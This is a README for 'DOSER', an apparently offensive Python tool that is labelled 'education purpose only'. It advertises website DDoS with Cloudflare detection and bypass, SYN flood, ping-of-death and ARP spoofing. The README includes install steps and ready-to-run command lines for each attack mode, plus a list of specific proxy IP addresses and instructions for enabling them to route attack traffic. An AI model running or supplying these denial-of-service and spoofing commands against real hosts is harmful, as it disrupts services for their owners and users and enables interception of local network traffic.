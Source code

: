 # DOSER
EDUCATION PURPOSE ONLY  !!!!!!!!!!!!!<br>
Doser is basically an Denial of Service attack that affects websites and local machines

  [+] DDOS Websites ,Detect And BYPASS CLOUDFLARE <br>
  [+] RUN SYN FLOOD AND PING OF DEATH ATTACK<br>
  [+] ARP Spoof Target in the local Network<br>
  
  # How to install and run
      
      * git clone https://github.com/bahaabdelwahed/DOSER/<br>
      * Install used library (pip3 install <library_name>)<br>
      * cd DOSER<br>
      * chmod +x doser.py<br>
  # USAGE : 
  
       python3 doser.py -u https://example.com <br>
       run this command against website doser tell you if the site use cloudflare and start attack with <br>
       
       python3  doser.py -syn 127.0.0.1 -p 21 <br>
       run syn flood attack against 127.0.0.1:21 this option use scapy to send multiple request in multiple thread<br>
       
       doser.py -pod 127.0.0.1 <br>
       Multiple request  against ICMP protocole<br>
       
       doser.py -arp <br>
       Run GUI console that ask for local ip adress to start arp spoof<br>
       
   
   
       WANT TO USE PROXY Make sure to update this :
       proxies ={
            'https': 'https://140.227.69.170:6000',
           'https': 'https://3.12.95.129:80',
           'https': 'https://167.99.174.59:80',
           'https':'https://92.204.251.170:1080',
           'https':'https://186.225.45.13:80',
           'https':'https://140.82.5.38:80',
           'https':'https://188.126.90.10:8888',
           'https':'https://140.82.5.38:1080',
               }
       and to change proxies=False in ligne 71 to proxies=proxies

   
